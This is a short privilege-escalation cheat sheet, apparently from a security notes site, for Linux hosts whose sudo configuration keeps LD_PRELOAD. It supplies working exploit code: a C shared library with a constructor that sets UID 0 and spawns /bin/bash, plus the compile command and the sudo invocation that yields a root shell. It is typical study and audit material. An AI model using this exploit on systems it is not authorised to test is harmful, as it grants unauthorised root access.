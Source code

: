 ```yaml
---
title: Sudo Privilege Escalation by Overriding Shared Library
description: LD_PRELOAD might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-08
draft: false
---
```


## Investigation

Check sudo commands.

```sh
sudo -l
```

The below is the output example.

```bash
env_keep+=LD_PRELOAD

(ALL : ALL) NOPASSWD: somecmd
```

If we find the sudo command keeps **LD_PRELOAD** environment, we can overwrite this variable to load our custome shared object and escalate the privileges.

<br />

## Exploitation

First off, create **exploit.c** under **/tmp** .

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

- The **"constructor"** attribute is a special type of function attribute in GCC. It tells the compiler to automatically call the function before the main function.

Now compile the c program to shared object.

```bash
# -fPIC: Generate Position Independent Code.
# -shared: Generate a shared library.
# -o: Output shared object.
gcc  -fPIC -shared -o exploit.so exploit.c
```

We can execute command with setting the shared library to **LD_PRELOAD** variable then spawn the root shell.

```bash
sudo LD_PRELOAD=/tmp/exploit.so somecmd
```

